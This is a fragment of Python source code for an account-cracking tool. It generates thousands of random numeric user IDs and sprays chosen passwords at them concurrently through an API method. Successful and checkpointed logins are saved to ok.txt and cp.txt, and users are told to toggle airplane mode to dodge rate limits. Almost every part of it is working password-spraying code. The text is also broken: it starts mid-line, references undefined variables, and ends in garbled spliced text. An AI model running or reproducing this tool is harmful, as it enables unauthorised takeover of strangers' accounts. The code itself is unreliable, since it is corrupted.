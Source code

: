 #omarsalem1

W = '\033[
		x = 111111111
		xx = 999999999
		idx = "100000"
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))

	def shanto4(self):
		x = 1111111
		xx = 9999999
		#idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		
		
	def old4_7(self):
		x = 11111111
		xx = 99999999
		idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		#idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(100000 MAX): \033[0;92m"))
		if (limit)>100000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(R))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))


	def old4_6(self):
		x = 1111111
		xx = 9999999
		idx = input("%s [+] ENTER A DIGIT (10): %s"%(Y,G))
		#idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(10000 MAX): \033[0;92m"))
		if (limit)>10000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		
		
	def old4_5(self):
		x = 111111
		xx = 999999
		#idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(10000 MAX): \033[0;92m"))
		if (limit)>10000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		

	def old_11(self):
		x = 1111111111111
		xx = 9999999999999
		idx = "50000"
		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>10000:
			exit("\n%s [!] DON'T CROSS				if len(listpass)<= IN -> cp.txببمبم
